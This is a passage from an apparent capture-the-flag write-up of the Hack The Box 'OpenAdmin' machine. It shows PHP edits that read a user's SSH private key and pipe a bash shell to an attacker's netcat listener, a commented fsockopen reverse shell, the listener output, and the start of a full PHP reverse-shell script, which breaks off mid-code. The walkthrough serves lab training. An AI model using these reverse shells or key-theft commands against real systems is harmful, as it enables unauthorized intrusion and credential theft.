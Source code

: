 c9b2cf07d40807e62af62660f0c81b5f


## Root Flag

Continuing trying to get a shell as `joanna` we tried a few different shell types, example:

```php
jimmy@openadmin:/var/www/internal$ cat main.php 

<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
#yyp$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
system('/bin/bash | nc 10.10.14.75 42069');
#$output = shell_exec("php -r '$sock=fsockopen("10.10.14.75",42069);exec("/bin/bash -i <&4 >&4 2>&4");'");
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

and were catching a connection back on the listener:

```console
root@discovery:~/htb/openadmin# nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.171] 51040
whoami;


whoami
```

But it doesn't look like it was actually executing anything -- just echoing it to the webpage after killing the connection. 

Instead, since we had the ability to drop files in this directory, so I just added a php shell:

```php
jimmy@openadmin:/var/www/internal$ chown jimmy:internal test.php
jimmy@openadmin:/var/www/internal$ cat test.php 
<?php                                                                                                             
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.75';  // CHANGE THIS
$port = 42069;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
      
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

```